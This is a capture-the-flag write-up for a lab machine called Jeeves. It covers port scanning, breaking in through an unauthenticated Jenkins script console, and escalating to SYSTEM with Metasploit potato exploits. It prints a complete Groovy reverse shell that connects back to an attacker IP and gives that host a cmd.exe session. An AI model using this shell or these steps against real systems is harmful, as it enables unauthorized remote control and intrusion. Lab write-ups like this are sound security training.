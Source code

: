 # Jeeves

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 10.0
- port 135/tcp MSRPC Microsoft Windows RPC
- port 445/tcp SMB Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
- port 50000/tcp HTTP Jetty 9.4.z-SNAPSHOT

**Directory enumeration**

- port 80
index.html
error.html

- port 50000
askjeeves -> jenkins dashboard

### Exploitation

The jenkins dashboard allows us to run a script, we can use this Groovy reverse shell to gain RCE on the 
target:

```
String host="10.10.10.10";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Privilege Escalation

Upload a meterpreter reverse shell or use exploit/multi/script/web_delivery to generate a powershell command 
for a reverse meterpreter shell.

Running Windows Exploit Suggester or local exploit suggester shows the target is vulnerable to Potato attacks

Background the meterpreter shell and use exploit/windows/local/ms16_075_reflection_juicy to get a system shell

The root flag is hidden in an Alternate Data Stream (ADS) and can be found with `dir /R` and read with
`more < ADS_value_here`
